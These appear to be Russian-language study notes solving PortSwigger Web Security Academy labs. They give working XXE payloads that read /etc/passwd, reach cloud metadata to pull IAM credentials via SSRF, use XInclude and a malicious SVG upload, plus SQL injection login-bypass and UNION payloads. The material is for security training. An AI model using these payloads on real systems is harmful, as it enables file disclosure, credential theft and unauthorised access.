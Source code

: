 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

6)заменить product id на `&res`; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

n+1)в итоге получаем 
```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```, что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

6)в ответ придёт /etc/passwd


____

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack
те же действия, что и в 1. до пункта 4) 
5) в product id вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
``` 
в ответ придёт /etc/passwd

____

4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

1) 2) выбрать статью 

3)нажать отправить комментариq(заполнить все поля предварительно) 

4)перехватить запрос через Burp

5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат
